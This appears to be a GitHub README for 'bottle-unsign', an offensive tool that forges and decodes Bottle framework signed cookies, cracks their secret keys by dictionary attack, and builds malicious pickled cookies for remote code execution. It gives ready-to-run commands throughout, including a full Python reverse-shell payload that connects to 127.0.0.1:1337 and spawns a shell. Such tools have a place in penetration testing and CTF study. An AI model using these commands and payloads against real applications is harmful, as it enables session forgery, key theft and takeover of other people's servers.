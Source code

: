 # bottle-unsign

bottle-unsign is a Python tool for encoding, decoding, and performing dictionary attacks on bottle framework cookies.

## Features

- **Encode**: Encode a cookie using HMAC-based encryption with a specified key.
- **Decode**: Decode a cookie that was encoded using the same key.
- **Dictionary Attack**: Attempt to decode a cookie by testing multiple potential keys from a wordlist file.
- **Custom Encoding (RCE)**: Encode a cookie with a custom pickled object (RCE) for remote code execution.

## Installation

1. **Clone the repository:**

   ```bash
   git clone https://github.com/yourusername/bottle-unsign.git
   cd bottle-unsign
   ```

2. **Install:**

   ```bash
   pip3 install .
   ```

   This installs the required dependencies, including the `rich` library.

## Usage

### Encode a Cookie

```bash
bottle-unsign encode --cookie "('name', {'name': 'admin'})" --key your_secret
```

### Decode a Cookie

```bash
bottle-unsign decode --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --key your_secret
```

### Dictionary Attack

```bash
bottle-unsign dict-attack --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --wordlist path_to_wordlist.txt
```

- **`--cookie`**: Specify the cookie string to encode, decode, or attack.
- **`--key`**: Specify the secret key for encoding, decoding, or dictionary attack.
- **`--wordlist`**: Specify the path to a wordlist file containing potential keys for dictionary attack.

## Example

```bash
bottle-unsign dict-attack --cookie '!wzE3YvpBN2Fixls6im4tdw==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==' --wordlist example_wordlist.txt
```

### Generate Malicious Pickled Object
```bash
PAYLOAD='python3 -c "import os,pty,socket;s=socket.socket();s.connect((\"127.0.0.1\",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")"'

bottle-unsign rce --cookie "('name', {'name': 'RCE()'})" --key your_secret --cmd $PAYLOAD [--url]
```


## Contributing

Contributions are welcome! Please fork the repository and submit a pull request with your improvements.
